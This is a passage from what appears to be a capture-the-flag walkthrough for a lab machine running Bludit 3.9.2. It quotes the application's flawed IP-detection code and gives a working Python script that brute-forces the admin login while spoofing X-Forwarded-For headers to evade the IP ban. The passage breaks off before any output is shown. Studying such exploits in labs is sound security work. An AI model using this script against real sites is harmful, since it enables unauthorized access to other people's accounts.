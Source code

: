 ## Foothold
As we examine Bludit 3.9.2 - Authentication Bruteforce Mitigation Bypass we can see the [original post](https://rastating.github.io/bludit-brute-force-mitigation-bypass/) where basically the author says that is possible to bypass the ip ban in place at application level by using the X-Forwarded-for header, in fact we can see that the application tries to determine the true IP address of the end user by trusting the X-Forwarded-For and Client-IP HTTP headers:
```
public function getUserIp()
{
  if (getenv('HTTP_X_FORWARDED_FOR')) {
    $ip = getenv('HTTP_X_FORWARDED_FOR');
  } elseif (getenv('HTTP_CLIENT_IP')) {
    $ip = getenv('HTTP_CLIENT_IP');
  } else {
    $ip = getenv('REMOTE_ADDR');
  }
  return $ip;
}
```
Now, let's craft a python script to perform bruteforceing.  
```
#!/usr/bin/python3
import requests, re, random

URL="http://10.10.10.191/admin/login"
PROXY={ 'http' : 'http://127.0.0.1:8080' }

# Used to retreive Cookie and tokenCSRF
def init_session():
    r = requests.get("http://10.10.10.191/admin/")
    csrf = re.search(r'input type="hidden" id="jstokenCSRF" name="tokenCSRF" value="([a-f0-9]*)"', r.text)
    csrf = csrf.group(1)
    cookie = r.cookies.get('BLUDIT-KEY')
    return csrf, cookie

def login(username, password):
    csrf, cookie = init_session()
    cookies = { 'BLUDIT-KEY': cookie }
    headers = { 'X-Forwarded-For' : f'{random.randrange(1,256)}.{random.randrange(1,256)}.{random.randrange(1,256)}.{random.randrange(1,256)}' }
    data = {
            'tokenCSRF': csrf,
            'username': username,
            'password': password,
            'save' : ''
    }
    r = requests.post(URL, headers=headers, cookies=cookies, data=data, proxies=PROXY, allow_redirects=False) #Allow redirects=False beacause we want to grab 301
    m = re.search(r'Username or password incorrect', r.text)
    if(m!=None):
        return False
    else:
        print("[+]"+username+":"+password)


wl = open('cewl.txt').readlines()
for line in wl:
    passwd = line.strip()
    login("fergus", passwd)

```
Now, if we let the script run we can have:  